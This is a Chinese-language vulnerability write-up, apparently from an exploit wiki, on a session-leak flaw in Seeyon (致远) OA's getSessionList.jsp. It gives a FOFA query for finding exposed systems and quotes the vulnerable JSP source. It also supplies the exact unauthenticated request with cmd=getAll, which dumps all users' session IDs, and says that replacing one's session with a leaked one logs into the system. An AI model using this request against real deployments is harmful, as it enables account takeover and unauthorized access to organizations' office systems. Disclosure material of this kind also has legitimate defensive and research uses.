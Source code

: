 # 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 影响版本

<a-checkbox checked>未知</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

出现漏洞的源码

```java
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```



从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```plain
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞



![img](/assets/PeiQi-Wiki/img/zhiyuan-21.png)



通过替换 Session即可登陆系统



## 
